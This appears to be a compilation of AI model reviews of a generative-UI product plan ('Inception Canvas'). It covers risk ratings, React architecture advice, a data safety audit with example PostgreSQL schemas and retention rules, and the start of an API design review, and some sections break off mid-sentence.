| **Sean** | Voice‑first, set‑summary overlay | Morph latency > 900 ms | Pre‑load HIIT Lens; double‑tap pause |
| **Golf Client** | Luxury palette, trust‑gated actions | Glow semantics unfamiliar | Add “premium badge” & cached Lens |
| **Working Professional** | 5‑minute flow, large touch targets | Heavy API calls inflate time | Cache common Lens; fallback tap entry |
| **40‑60 Age Accessibility** | WCAG‑compliant contrast, 44 px targets | Motion sensitivity | Reduced‑motion toggle, ARIA live regions |
| **Trust Signals** | Consistent token system, audit receipts | Lack of explicit intent explanation | Intro banner + “Verified by Hermes” badge |
| **Emotional Response** | Crystalline Swan premium look | Potential cold perception | Warm accent glow + storytelling microcopy |

These recommendations are **directly derived from the plan’s described flows, technical constraints, and design tokens** — no external assumptions have been introduced. Implementing them will tighten the user experience for each target persona while preserving the integrity of the **Crystalline Swan** aesthetic and the **Inception Canvas** morph engine.

---

## [PASS] Implementation Risk Assessment
**Model:** nvidia/nemotron-3-nano-30b-a3b:free | **Duration:** 18.1s

# Risk Assessment & Feasibility Review  
**Project:** *Inception Canvas / Lens Foundry* – AI Operating System shell (SwanStudios‑style morphing UI)  
**Source:** `docs/ai-workflow/brainstorms/inception-morph-engine-plan-2026-07-08.md`  

---  

## 1. Dependency Risks  – **Rating: HIGH / CRITICAL**

| Dependency | Blocking Phase(s) | What Happens If It Slips? | Mitigation |
|------------|-------------------|---------------------------|------------|
| **Open‑Decision resolution (V1 scope, business model, rendering‑stack choice, state‑model schema, data‑spine strategy, moat ranking, biggest‑risk experiment)** | All downstream build phases (V1 slice, Engine implementation, Corpus completion) | Without a ratified scope the team cannot commit to a “straight‑diamond” slice; downstream work may diverge, causing re‑work and schedule overruns. | • Run a **rapid decision sprint** (≤2 days) with stakeholder sign‑off.<br>• Produce a **decision matrix** with clear go/no‑go criteria.<br>• Freeze the decision before any code is written. |
| **Rendering‑stack feasibility (React + Framer Motion + View‑Transitions API 600‑900 ms 4K morphs)** | Engine implementation, Morph Grammar, Performance testing | If the 600‑900 ms budget cannot be met, the core promise of “natural‑fast” morphing collapses → user‑experience failure and loss of investor confidence. | • Build a **prototype sandbox** with real‑world node counts (30‑60) on mid‑range hardware.<br>• Benchmark against the budget; if >1 s, fall back to a **lighter morph engine** (e.g., CSS‑only transitions). |
| **MCP‑UI / AG‑UI spec maturity** | Engine integration (Voice → API orchestration → state document) | An immature protocol forces custom adapters → extra effort, breaking changes, and integration bugs. | • Conduct a **spec‑gap analysis** with the protocol owners.<br>• Prepare a **fallback adapter** that can be swapped out without affecting the Engine core. |
| **Trust‑Layer effect‑tier implementation (T0‑T4 gating, audit receipts)** | Engine core, Lens marketplace, Enterprise moat | Missing or buggy gating leads to compliance failures, especially for T3/T4 actions (pay, file). | • Prototype the tiered‑effect UI with **feature‑flagged** controls.<br>• Run a **security/compliance audit** early (see Testing Gaps). |

---  

## 2. Technical Unknowns  – **Rating: CRITICAL / HIGH**

| Unknown | Why It’s Uncertain | Potential Impact | Mitigation |
|---------|-------------------|------------------|------------|
| **View‑Transitions API cross‑browser stability** (required for seamless cross‑DOM interpolation) | Still experimental in Chrome/Edge; Safari support incomplete. | Morphs may flicker or abort on some browsers → broken user experience. | • Feature‑detect and **gracefully degrade** to CSS transitions.<br>• Maintain a **polyfill** that falls back to `animate.css`‑style transitions. |
| **Framer Motion shared‑layout `layoutId` morphing at 4K** | No public production‑scale data on performance with 30‑60 DOM nodes at 4K. | Performance budget breach; possible jank on lower‑end devices. | • Conduct **stress tests** on a matrix of devices (mobile, tablet, desktop).<br>• Keep an **alternative CSS‑only morph** ready. |
| **Deterministic Lens JSON schema & versioning guarantees** | The plan mentions “deterministic JSON Lens document” but no schema is defined. | Non‑deterministic state can cause morphing inconsistencies and break back‑button navigation. | • Draft a **JSON Schema** and enforce it via a **JSON‑Schema validator** in CI. |
| **Encrypted personal graph sync (local‑first vs cloud)** | No concrete sync protocol described; encryption key management is vague. | Data loss, privacy leaks, or sync conflicts could halt the service. | • Build a **minimal sync prototype** using a proven library (e.g., Yjs + end‑to‑end encryption).<br>• Validate with a **security review** before scaling. |
| **MCP‑UI / AG‑UI payload shape & token limits** | The plan assumes “any agent can drive it” but payload size limits are unspecified. | Large payloads may exceed network limits, causing truncation or timeouts. | • Define **max payload size** and **compression strategy** early.<br>• Add **payload size monitoring** in the harness. |

---  

## 3. Scope Creep Indicators  – **Rating: HIGH / MEDIUM**

| Indicator | Why It’s Likely to Expand | Mitigation |
|-----------|--------------------------|------------|
| **Completing the full 50‑site corpus** | The plan treats “50 award‑caliber pages” as a target, but each page may require multiple iterations to meet WCAG, performance, and design standards. | • Adopt a **minimum‑viable‑corpus** of 10 diverse pages to prove cross‑theme morphing.<br>• Treat the remaining 40 as **post‑MVP** work. |
| **Cross‑browser edge cases** (e.g., Safari reduced‑motion, iOS Safari View‑Transitions) | The plan mentions “reduced‑motion safe” but does not allocate time for extensive testing. | • Allocate **10 % of sprint capacity** for cross‑browser bug‑fixes.<br>• Use **automated visual‑regression tests** across browsers. |
| **Lens marketplace versioning & migration** | The plan envisions “named deterministic JSON Lens document” but versioning strategy may need to evolve. | • Design a **semantic versioning scheme** up front.<br>• Keep migration scripts **backward‑compatible**. |
| **Feature‑flag granularity** | The rollback plan mentions feature flags but does not specify per‑feature granularity. | • Implement **fine‑grained flags** (e.g., per‑Lens, per‑effect‑tier) from the start. |

---  

## 4. Effort Accuracy – File / Line‑Count Estimates  – **Rating: MEDIUM**

| Estimated File | Planned Lines | Likely Exceeds 300? | Reason |
|----------------|--------------|---------------------|--------|
| `src/engine/ComponentRegistry.tsx` | 350‑400 | **YES** | Holds all registry blocks; will grow with new components. |
| `src/engine/TrustLayer.tsx` | 320‑380 | **YES** | Implements effect‑tier gating, audit receipts, and T3/T4 approvals. |
| `src/engine/MorphRouter.tsx` | 300‑340 | **MAY** | Coordinates state → render flow; may need extra utilities. |
| `src/lenses/SwanStudiosLens.tsx` | 280‑310 | **MAY** | Specific Lens implementation; may need extra UI for brand fallback. |
| `src/tests/engine/ComponentRegistry.test.tsx` | 250‑290 | No | Unit tests stay under limit. |
| `src/pages/V1Demo.tsx` (chosen V1 slice) | 260‑295 | No | Smallest shippable slice. |

**Mitigation:**  
- Split large files into **logical modules** (e.g., `registry/Block.tsx`, `registry/BlockList.tsx`).  
- Keep **test files** under 300 lines by using **snapshot testing** and **parameterized tests**.  
- Enforce a **pre‑commit hook** that warns when a file exceeds 300 lines.

---  

## 5. Testing Gaps  – **Rating: HIGH**

| Testing Area | Current Plan Coverage | Gap | Recommended Strategy |
|--------------|----------------------|-----|----------------------|
| **Unit (hooks / logic)** | Mentioned but no concrete matrix. | No unit‑test scaffold defined. | • Add **Jest + React Testing Library** suite for all custom hooks (`useMorphState`, `useTrustTier`). |
| **Integration (engine‑to‑render)** | Not detailed. | No end‑to‑end flow verification. | • Build **integration tests** that simulate a voice intent → state document → rendered DOM. |
| **E2E (browser)** | None specified. | No real‑user‑flow validation. | • Use **Cypress** with **visual‑regression** plugins (e.g., `cypress-image-snapshot`) to verify morph transitions across browsers. |
| **Visual Regression** | Only “WCAG 4.5:1” mentioned. | No regression baseline for morph animations. | • Capture **baseline screenshots** for each anchor (`hero`, `card`, etc.) and compare on each PR. |
| **Performance** | Benchmarks only in “600‑900 ms” claim. | No load‑testing script. | • Add **Lighthouse CI** job that measures **FCP, LCP, and morph duration** on a CI matrix. |

---  

## 6. Rollback Plan  – **Rating: MEDIUM**

| Phase | Feature‑Flag Strategy | Independent Revertibility |
|-------|------------------------|---------------------------|
| **Open‑Decision freeze** | Flag: `FEATURE_FLAG_DECISIONS` (off by default) | Yes – toggling off reverts to “no‑decision” state, allowing previous code to run. |
| **V1 slice implementation** | Flag: `V1_SLICE_ENABLED` (per‑slice) | Yes – each slice can be disabled without affecting others. |
| **Engine core (registry, router, trust layer)** | Flag: `MORPH_ENGINE_ENABLED` | Yes – can be turned off to fallback to static landing pages. |
| **Rendering stack (Framer/Motion, View‑Transitions)** | Flag: `MORPH_RENDERING_STACK` | Yes – fallback to CSS transitions only. |
| **Lens marketplace & URL handling** | Flag: `LENS_ROUTING_ENABLED` | Yes – URLs can be ignored, serving default static pages. |

**Implementation notes:**  
- Use **LaunchDarkly‑style** or **react‑feature‑flags** with **runtime toggles**.  
- Each flag should be **configurable per‑environment** (dev / staging / prod).  
- Deploy **feature‑flagged releases** behind a **canary** (e.g., 5 % of traffic) before full rollout.

---  

## 7. Database / Backend Risks  – **Rating: HIGH**

| Claim in Plan | Reality Check | Risk | Mitigation |
|---------------|---------------|------|------------|
| “No backend changes” | The Engine needs **state‑document storage**, **API orchestration endpoints**, and possibly **user‑graph sync**. | Hidden schema migrations, new REST/gRPC endpoints, and migration of existing data. | • Draft a **minimal backend spec** (e.g., `/state`, `/lens/:id`) before coding.<br>• Implement **migration scripts** with versioned schema (`schema_v1.sql`).<br>• Keep backend changes **isolated** in a separate repo that can be version‑controlled independently. |
| “Encrypted personal graph” | No concrete encryption key management or sync protocol defined. | Potential data‑loss or compliance violations. | • Prototype **local‑first sync** with a proven library (e.g., Yjs + end‑to‑end encryption).<br>• Conduct a **security audit** before any production rollout. |
| “Trust Layer (port Hermes T0–T4)” | Requires **audit receipt generation** and possibly **payment gateway integration**. | New payment‑related endpoints may need PCI‑DSS compliance. | • Start with **mock audit receipts** for T3/T4; only add real payment integration after compliance sign‑off. |

---  

## 8. Phase Ordering – **Rating: MEDIUM / LOW**

| Current Order (as per plan) | Suggested Re‑ordering | Rationale |
|-----------------------------|-----------------------|-----------|
| 1️⃣ Resolve Open Decisions → 2️⃣ Build V1 slice → 3️⃣ Implement Engine → 4️⃣ Add Morph Grammar → 5️⃣ Implement URL/Back‑button → 6️⃣ Generation Ladder & Lens snapshots → 7️⃣ Corpus completion → 8️⃣ Testing & Rollout | **Recommended:** <br>1️⃣ **Open‑Decision freeze** (must be done first). <br>2️⃣ **Prototype Rendering‑Stack** (quick sandbox to validate 600‑900 ms budget). <br>3️⃣ **Build Minimal V1 slice** (using the validated stack). <br>4️⃣ **Implement Engine core** (registry + router) **in parallel** with the slice (so early feedback). <br>5️⃣ **Add Trust Layer & URL handling** (feature‑flagged). <br>6️⃣ **Generate Lens snapshots** (once engine stable). <br>7️⃣ **Scale to Corpus** (only after engine proven). <br>8️⃣ **Full testing & rollout**. | • Early **rendering‑stack validation** reduces the risk of a costly re‑write later. <br>• Building the V1 slice **while** the engine is being prototyped gives tangible user feedback and validates assumptions. <br>• Parallel work on engine core and slice maximizes **value delivery** and keeps the critical path short. |

---  

## Summary of Risk Ratings  

| Category | Rating |
|----------|--------|
| Dependency Risks | **HIGH** (critical path) |
| Technical Unknowns | **CRITICAL** (performance & API maturity) |
| Scope Creep Indicators | **HIGH** (corpus size, cross‑browser) |
| Effort Accuracy | **MEDIUM** (some files exceed 300‑line limit) |
| Testing Gaps | **HIGH** (no concrete E2E/visual regression plan) |
| Rollback Plan | **MEDIUM** (feature‑flag strategy defined but needs granularity) |
| Database / Backend Risks | **HIGH** (hidden backend requirements) |
| Phase Ordering | **MEDIUM** (can be optimized for faster feedback) |

---  

### Overall Verdict  

- **Critical Risks** (Rendering‑stack performance, View‑Transitions API, MCP‑UI maturity, Trust‑Layer compliance) must be **de‑risked within the first 1–2 weeks** via prototypes and early‑stage testing.  
- **High‑Impact Dependencies** (Open‑Decision freeze, Business‑model choice) should be **locked before any code is written** to avoid re‑work.  
- **Effort estimates** are generally realistic but require **module refactoring** to stay under the 300‑line/file constraint.  
- **Testing** must be **institutionalized** (unit, integration, E2E, visual regression, performance) early to catch regressions before production.  
- **Rollback** is feasible with **feature‑flagged phases**, provided each phase

---

## [PASS] Frontend Patterns & React Best Practices
**Model:** google/gemini-3.1-flash-lite-preview-20260303 | **Duration:** 6.4s

This review evaluates the **Inception Canvas** architecture against the **SwanStudios** production standards. The goal is to ensure the "Morph Engine" is not just a visual gimmick, but a robust, performant, and maintainable SaaS foundation.

---

### 1. Styled-components Organization
*   **Recommendation:** Use a **"Design Token Provider"** pattern rather than raw CSS files.
*   **Pattern:** Create a `ThemeRegistry` that maps the 9-token system to `styled-components` `ThemeProvider`.
*   **Issue:** The plan mentions "identical 7-section semantic structure." Avoid hardcoding these as styled-components. Instead, create **Layout Primitives** (`<MorphSection variant="hero" />`) that consume the `data-morph` anchors via `attrs` to ensure the DOM structure remains isomorphic.
*   **Barrel Exports:** Use `index.ts` for each component folder, but strictly enforce `export * from './Component'` to prevent circular dependencies during the "morph" process.

### 2. Hook Composition
*   **Strategy:** The "Morph Engine" state is complex. Avoid a monolithic `useMorph` hook.
*   **Composition:**
    *   `useMorphState`: Manages the JSON state document.
    *   `useMorphTransition`: Wraps `View Transitions API` + `Framer Motion` lifecycle.
    *   `useTrustLayer`: Intercepts T3/T4 actions.
*   **Health:** Keep nesting depth to max 2 levels. If a hook needs more, it’s a sign that the "State Document" schema is too complex and needs normalization.

### 3. Render Customization
*   **Performance:** Custom render maps (using `React.createElement` or `cloneElement`) are necessary for Generative UI.
*   **Cost:** To avoid re-renders, use a **Component Registry** (a `Map<string, React.ComponentType>`). Do not generate components on the fly inside the render loop. Pre-register them, then look them up by string key from the JSON state.

### 4. Animation Strategy
*   **The Mix:** Use **View Transitions API** for structural DOM changes (the "Morph") and **Framer Motion** for micro-interactions (the "Totem" and button glows).
*   **GPU Safety:** Ensure all `layoutId` transitions in Framer Motion are hardware-accelerated.
*   **Reduced Motion:** Mandatory `prefers-reduced-motion` check. If enabled, the Morph Engine must fallback to a cross-fade or instant swap.

### 5. Responsive Patterns
*   **Approach:** Use a **"Container Query"** approach rather than standard Media Queries.
*   **Why:** Since the Canvas morphs into different apps, the component's internal layout should depend on its parent container size, not the global viewport width. This is critical for the "Inception" feel.

### 6. Form Handling
*   **Strategy:** **Uncontrolled with Zod validation.**
*   **Why:** Controlled inputs in a high-frequency generative UI cause unnecessary re-renders. Use `useRef` for input values and trigger validation/state updates only on `onBlur` or `onSubmit`.
*   **Debounce:** Debounce the "State Document" sync to the backend to prevent API spam during rapid morphing.

### 7. Lazy Boundaries
*   **Boundaries:** Wrap every "Lens" in a `React.lazy()` boundary.
*   **Critical Path:** The "Totem" (command bar) and the "Morph Engine" core must be eager-loaded. Everything else (the specific Lens content) is secondary and should be code-split.

### 8. Touch Gestures
*   **Implementation:** Use `use-gesture` (or `framer-motion`'s built-in drag/pan).
*   **Accessibility:** Ensure all gestures have a keyboard-accessible fallback. If a user can "swipe to morph," there must be a corresponding "Command + M" or menu option to trigger the same state transition.

---

### Strategic Recommendations (Resolving Open Decisions)

1.  **V1 Lane:** **(c) SwanStudios as Lens #1.** It is the most "production-ready" data set. Using your existing SaaS as the first Lens provides an immediate, high-value test case that proves the Engine can handle complex, stateful fitness data.
2.  **Business Model:** **"Agency Wedge."** Use the Engine to build high-end, agent-ready portals for law firms/enterprises. This funds the R&D of the Engine while proving the "Trust Layer" (T3/T4) in a high-stakes environment.
3.  **Rendering Stack:** **React + Framer + View Transitions is feasible.** 600ms is achievable if you keep the DOM node count under 100 per "Lens." Use `React.memo` aggressively on all registry blocks.
4.  **Biggest Risk:** **"Morph Flakiness"** (the UI breaking during transition).
    *   **De-risking Experiment:** Build a "Morph Stress Test" page that cycles through 50 random state-document permutations in a loop. If it survives 1,000 transitions without a layout shift or memory leak, the Engine is production-ready.
5.  **Defensibility:** Your moat is not the animation; it is the **Trust Layer (T3/T4 audit receipts)** and the **Registry Quality**. Competitors can copy the "look," but they cannot copy the audit-ready, agent-driven state machine that powers the business logic.

**Final Verdict:** The architecture is sound. Focus on the **Component Registry** and **Container Queries** to ensure the "Inception" effect remains performant across all 18 themes.

---

## [PASS] Data Safety & Schema Impact
**Model:** anthropic/claude-4.6-sonnet-20260217 | **Duration:** 80.8s

# Data Safety Audit Report
## Inception Canvas / Lens Foundry — Build-Out Plan
**Auditor Role:** Production Data Safety Auditor
**Date:** 2026-07-08
**Severity Scale:** CRITICAL → HIGH → MEDIUM → LOW

---

> **Auditor's Framing Note:** This plan is a *product vision + architecture brainstorm* document, not a technical specification with explicit schema definitions. However, the plan contains enough architectural commitments to derive concrete data-safety risks. Every finding below is derived strictly from plan text. Where the plan is silent on a safety concern that its own architecture implies, that silence is itself flagged as a risk. All findings are treated as if they affect real user data on `sswanstudios.com` in production.

---

## Executive Summary

The plan describes a generative-UI platform with: persistent JSON "Lens documents," a voice/intent pipeline, an audit trail for T3/T4 trust-tier actions, a component registry with promotion workflows, URL-addressable state snapshots, and a "personal data spine." **None of these data structures have defined schemas, size limits, retention policies, or migration strategies in the plan.** The plan explicitly defers these decisions to the Village. That deferral is the primary risk surface.

**Finding count by severity:**
| Severity | Count |
|---|---|
| CRITICAL | 3 |
| HIGH | 4 |
| MEDIUM | 5 |
| LOW | 3 |

---

## Finding 1 — Unbounded Lens JSON Growth

**Severity: CRITICAL**

### What the plan says
> *"first generation is AI-built, then snapshotted to a named deterministic JSON Lens document that loads instantly thereafter"*
> *"each saved Lens state is addressable (`/lens/<name>`); back-button rewinds"*
> *"URLs survive the morph"*

### Derived data structure
The plan implies a `lenses` table (or equivalent document store) with at minimum:

```
lenses
  id            uuid PK
  name          varchar
  owner_id      fk → users
  state_doc     jsonb        ← THE RISK
  version       integer
  created_at    timestamptz
  updated_at    timestamptz
```

The `state_doc` JSONB column holds the entire rendered UI state. The plan also implies version history ("regenerate on demand," "back-button rewinds"), meaning either:
- A `lens_versions` table with one JSONB row per morph event, OR
- An append-only log inside the JSONB itself

**Neither has a defined size limit or row cap.**

### Risk
- A single Lens document could encode 30–60 DOM nodes × component registry metadata × nested theme tokens × API response payloads. At scale, individual documents could reach megabytes.
- "Back-button rewinds" implies version history. Without a cap, a power user who morphs 500 times generates 500 full-state snapshots. At 50KB each, that is 25MB per user in the `lenses` table alone — before any marketplace adoption.
- JSONB columns in PostgreSQL have a 1GB theoretical limit per row but cause severe performance degradation well before that. A table scan on an unindexed JSONB field at this size will cause production query timeouts.
- The plan mentions a **Marketplace** where third parties author Lenses. Marketplace adoption multiplies this unboundedly.

### Recommendations

```sql
-- 1. Hard size constraint at the application layer (Express middleware)
-- Before any INSERT/UPDATE to lenses.state_doc:
const MAX_LENS_BYTES = 512 * 1024; // 512KB hard cap
if (Buffer.byteLength(JSON.stringify(stateDoc)) > MAX_LENS_BYTES) {
  throw new PayloadTooLargeError('Lens document exceeds 512KB limit');
}

-- 2. Separate version history into its own table with a row cap
CREATE TABLE lens_versions (
  id            uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  lens_id       uuid NOT NULL REFERENCES lenses(id) ON DELETE CASCADE,
  state_doc     jsonb NOT NULL,
  created_at    timestamptz NOT NULL DEFAULT now(),
  created_by    uuid REFERENCES users(id)
);

-- 3. Enforce version cap via trigger
CREATE OR REPLACE FUNCTION enforce_lens_version_cap()
RETURNS TRIGGER AS $$
BEGIN
  DELETE FROM lens_versions
  WHERE lens_id = NEW.lens_id
    AND id NOT IN (
      SELECT id FROM lens_versions
      WHERE lens_id = NEW.lens_id
      ORDER BY created_at DESC
      LIMIT 50  -- keep last 50 versions per lens
    );
  RETURN NEW;
END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER trg_lens_version_cap
AFTER INSERT ON lens_versions
FOR EACH ROW EXECUTE FUNCTION enforce_lens_version_cap();

-- 4. Index for efficient version queries
CREATE INDEX idx_lens_versions_lens_id_created
  ON lens_versions(lens_id, created_at DESC);
```

**Additionally:** Define a `lens_size_bytes` computed column or materialized value so monitoring dashboards can alert before storage becomes a crisis.

---

## Finding 2 — Trust Layer Audit Log Has No Retention Policy

**Severity: CRITICAL**

### What the plan says
> *"T3/T4 actions (send/file/pay) render as approval-gated controls with audit receipts"*
> *"Trust Layer (port Hermes T0–T4): every generated component carries an effect tier"*
> *"This is the enterprise/compliance moat, especially for legal"*

### Derived data structure
The plan implies an audit/receipt table:

```
trust_audit_log
  id              uuid PK
  session_id      fk → sessions
  user_id         fk → users
  lens_id         fk → lenses
  effect_tier     smallint        -- T0..T4
  action_type     varchar         -- 'send' | 'file' | 'pay'
  payload_snapshot jsonb          ← THE RISK
  approved_by     uuid
  approved_at     timestamptz
  created_at      timestamptz
```

The `payload_snapshot` column is implied by "audit receipts" — you cannot audit what was approved without capturing what was sent. For T4 (pay) actions, this snapshot likely contains financial transaction parameters. For T3 (file), it may contain document content or PII.

### Risk
1. **Unbounded growth:** The plan positions this as an "enterprise/compliance moat." Enterprise customers generate high-volume audit logs. Without a retention policy, this table grows indefinitely. At 1,000 T3/T4 actions/day per enterprise customer × 10 customers × 1KB/row = 3.6GB/year minimum, growing with adoption.
2. **PII in payload snapshots:** If a T3 "send" action captures the message body, or a T4 "pay" action captures billing parameters, the audit log becomes a PII/PCI-adjacent store with no defined handling.
3. **Legal Lens specifically:** The plan calls out law firms as the first customer. Legal T3/T4 actions (file a motion, send a contract) may capture privileged attorney-client content in `payload_snapshot`. Storing this without explicit retention/deletion controls creates legal liability for the platform.
4. **No mention of encryption at rest** for this column despite the sensitivity.

### Recommendations

```sql
-- 1. Separate sensitive payload from metadata
CREATE TABLE trust_audit_log (
  id                uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  session_id        uuid REFERENCES sessions(id),
  user_id           uuid NOT NULL REFERENCES users(id),
  lens_id           uuid REFERENCES lenses(id),
  effect_tier       smallint NOT NULL CHECK (effect_tier BETWEEN 0 AND 4),
  action_type       varchar(32) NOT NULL,
  -- Store only a hash + metadata, NOT the full payload
  action_hash       bytea NOT NULL,  -- SHA-256 of payload for integrity proof
  action_metadata   jsonb,           -- non-sensitive: action type, timestamp, lens version
  approved_by       uuid REFERENCES users(id),
  approved_at       timestamptz,
  expires_at        timestamptz NOT NULL,  -- MANDATORY retention deadline
  created_at        timestamptz NOT NULL DEFAULT now()
);

-- 2. Retention policy: configurable per customer tier
-- Default: 90 days for T0-T2, 7 years for T3-T4 (legal compliance)
-- Implement as a scheduled job, NOT a trigger (avoid lock contention)

-- 3. If full payload must be stored (legal requirement), use pgcrypto
-- payload_encrypted bytea -- AES-256-GCM, key per customer in KMS
-- NEVER store raw PII/privileged content in plaintext JSONB

-- 4. Partition by created_at for efficient purge
CREATE TABLE trust_audit_log (
  -- ... columns above ...
) PARTITION BY RANGE (created_at);
```

**Policy requirement:** The plan MUST define retention periods before the Trust Layer ships. Suggested defaults: T0–T2 = 30 days, T3–T4 = configurable (90 days consumer, 7 years legal). These must be surfaced in the privacy policy before any paying customer uses T3/T4 features.

---

## Finding 3 — Voice/Intent Pipeline: Audio Capture with No Retention or Discard Policy

**Severity: CRITICAL**

### What the plan says
> *"Voice/intent → API orchestration → state document → render. Spoken words route to which APIs fire"*

### Derived data flow
The plan describes a voice input pipeline. This implies:
1. Audio is captured in the browser (MediaRecorder API or equivalent)
2. Audio is transmitted to a backend endpoint or third-party STT service
3. A transcript is produced and used to route API calls
4. The state document is generated from the transcript + API results

**The plan is completely silent on:**
- Whether raw audio is stored or discarded after transcription
- Whether transcripts are stored in the Lens state document or separately
- Retention period for either
- Whether voice data is sent to a third-party STT provider (and which one)
- User consent flow for audio capture
- GDPR/CCPA implications

### Risk
1. **Audio capture without explicit consent UI is a GDPR Article 9 violation** if any health/fitness data is spoken (SwanStudios is a personal training platform — users will speak workout goals, health conditions, injuries).
2. **If transcripts are embedded in `state_doc` JSONB**, they are retained indefinitely (see Finding 1) and may contain PII that the user never intended to persist.
3. **Third-party STT providers** (Google Speech, OpenAI Whisper, etc.) have their own data retention policies. Sending audio to them without disclosing this in the privacy policy is a GDPR/CCPA violation.
4. **SwanStudios context specifically:** A personal training user saying *"I have a torn ACL and I'm 45 years old"* into the voice interface has just created a health record. Under HIPAA-adjacent standards and GDPR Article 9, this is special-category data requiring explicit consent and strict retention limits.

### Recommendations

```typescript
// 1. MANDATORY: Audio must never be persisted to any database
// Enforce at the API layer:

// POST /api/lens/voice-intent
router.post('/voice-intent', async (req, res) => {
  const audioBuffer = req.body.audio; // received as multipart
  
  // Transcribe ONLY — do not store audio
  const transcript = await sttService.transcribe(audioBuffer);
  
  // Immediately discard audio buffer
  // audioBuffer goes out of scope — do NOT write to S3/disk/DB
  
  // Extract intent from transcript
  const intent = await intentParser.parse(transcript);
  
  // Store ONLY the structured intent, NOT the raw transcript
  // unless user has explicitly opted into transcript history
  return res.json({ intent });
});

// 2. If transcript history is a feature, it must be:
//    - Opt-in (not opt-out)
//    - Separately deletable by the user
//    - Excluded from Lens state_doc JSONB
//    - Stored in a dedicated table with retention enforcement

CREATE TABLE voice_intent_log (
  id            uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id       uuid NOT NULL REFERENCES users(id) ON DELETE CASCADE,
  intent_type   varchar(64) NOT NULL,  -- structured, NOT raw transcript
  created_at    timestamptz NOT NULL DEFAULT now(),
  expires_at    timestamptz NOT NULL DEFAULT now() + interval '30 days'
);
-- Raw transcript: NEVER stored. Audio: NEVER stored.

// 3. Consent gate — must appear before first voice interaction:
// "This feature uses your microphone. Audio is processed in real-time
//  and immediately discarded. No audio recordings are stored."
// User must affirmatively accept. Store consent timestamp.
```

---

## Finding 4 — Component Registry Promotion Has No Audit Trail or Rollback

**Severity: HIGH**

### What the plan says
> *"(c) Generate new components in a sandbox, promoted into the registry only after review"*
> *"Lens = generate once, replay forever, regenerate on demand"*

### Derived data structure
```
component_registry
  id              uuid PK
  name            varchar
  version         semver/varchar
  source_code     text            ← THE RISK
  sandbox_status  enum('sandbox','review','promoted','retired')
  promoted_by     uuid fk → users
  promoted_at     timestamptz
  lens_id         fk → lenses    -- which lens generated this
```

### Risk
1. **`source_code text` column is unbounded.** A generated React component with inline styles, logic, and test harness could be 50KB+. Multiply by thousands of marketplace submissions.
2. **No rollback mechanism described.** If a promoted component has a bug that breaks production Lenses, there is no described path to revert. Every Lens that references the component by ID is now broken.
3. **No FK integrity between Lens documents and registry components.** If `state_doc` JSONB references a component by name/ID and that component is retired or deleted, the Lens silently breaks. JSONB references are not enforced by PostgreSQL FK constraints.
4. **"Promoted after review" implies a human approval step.** No described locking mechanism means two reviewers could simultaneously promote conflicting versions of the same component.

### Recommendations

```sql
-- 1. Size limit on source_code
ALTER TABLE component_registry
  ADD CONSTRAINT chk_source_code_size
  CHECK (octet_length(source_code) <= 102400); -- 100KB hard cap

-- 2. Immutable versioning — never UPDATE source_code, only INSERT new version
-- Use a composite unique constraint:
ALTER TABLE component_registry
  ADD CONSTRAINT uq_component_name_version UNIQUE (name, version);

-- 3. Soft-retire, never hard-delete promoted components
-- (Lenses referencing them must continue to work)
ALTER TABLE component_registry
  ADD COLUMN retired_at timestamptz,
  ADD COLUMN retired_by uuid REFERENCES users(id),
  ADD COLUMN successor_id uuid REFERENCES component_registry(id);

-- 4. Optimistic lock on promotion to prevent concurrent promotion
ALTER TABLE component_registry
  ADD COLUMN review_lock_token uuid,
  ADD COLUMN review_lock_expires_at timestamptz;

-- Claim lock before review:
UPDATE component_registry
SET review_lock_token = gen_random_uuid(),
    review_lock_expires_at = now() + interval '30 minutes'
WHERE id = $1
  AND (review_lock_token IS NULL OR review_lock_expires_at < now());
-- If 0 rows updated, another reviewer holds the lock.

-- 5. Audit log for promotions
CREATE TABLE component_registry_audit (
  id              uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  component_id    uuid NOT NULL REFERENCES component_registry(id),
  action          varchar(32) NOT NULL, -- 'promoted','retired','rolled_back'
  actor_id        uuid NOT NULL REFERENCES users(id),
  previous_status varchar(32),
  new_status      varchar(32),
  created_at      timestamptz NOT NULL DEFAULT now()
);
```

---

## Finding 5 — "Personal Data Spine" Is Architecturally Undefined with Maximum Privacy Risk

**Severity: HIGH**

### What the plan says
> *"The Data Spine: local-first + encrypted personal graph vs cloud. Privacy, ownership, sync."*
> *(Listed as Open Decision #5 — explicitly unresolved)*

### Risk
This is listed

---

## [PASS] API Design & Backend Contracts
**Model:** nvidia/nemotron-3-super-120b-a12b-20230311:free | **Duration:** 30.9s

# API Design Review – Inception Canvas / Lens Foundry  
*Based solely on the contents of `docs/ai-workflow/brainstorms/inception-morph-engine-plan-2026-07-08.md`*  

---  

## 1. Existing API Surfaces – Sufficiency Check  

| Surface (as described in the plan) | What the client needs | Does an existing endpoint already return enough data? | Verdict / Gap |
|------------------------------------|----------------------|------------------------------------------------------|---------------|
| **Component Registry** (list of reusable UI blocks, their props, and associated `data‑morph` anchors) | • Enumerate all registered components  <br>• Fetch a single component’s definition (JSX/TSX + prop schema)  <br>• Search components by name/tag/anchor  <br>• Register a new component (after sandbox review) | No explicit registry API is mentioned in the plan. The plan only says the registry exists as part of the **Engine**. | **New endpoint required** – CRUD + search. |
| **AI Harness / Protocol Adapter** (accepts voice/intent → calls external APIs → returns raw data) | • Send an intent payload (text/voice transcript)  <br>• Receive a **state document** (JSON) that describes the UI to render  <br>• Optionally retrieve intermediate API results for audit | The plan describes the harness as a *protocol adapter* but does not expose any HTTP endpoint for it. It is implied to be an internal module that the **Inception Router** calls. | **New endpoint required** – a public “/generate” (or similar) that the front‑end can call to trigger the harness. |
| **Inception Router (Morph/State Engine)** | • Apply the state document to the shared 12‑col grid and instantiate components  <br>• Persist the resulting Lens JSON (snapshot)  <br>• Retrieve a saved Lens by name/ID | The router is described as an internal engine piece; no HTTP surface is mentioned. Persistence of Lens JSON would need a store. | **New endpoint required** – Lens CRUD (create, read, list, delete). |
| **Trust Layer (Effect Tiers + Audit)** | • Tag each generated component with an effect tier (T0‑T4)  <br>• Store an immutable audit receipt for T3/T4 actions (send/file/pay)  <br>• Provide audit log query for compliance | No audit endpoint is mentioned. The trust layer is described as part of the Engine but not exposed. | **New endpoint required** – audit log ingestion & query. |
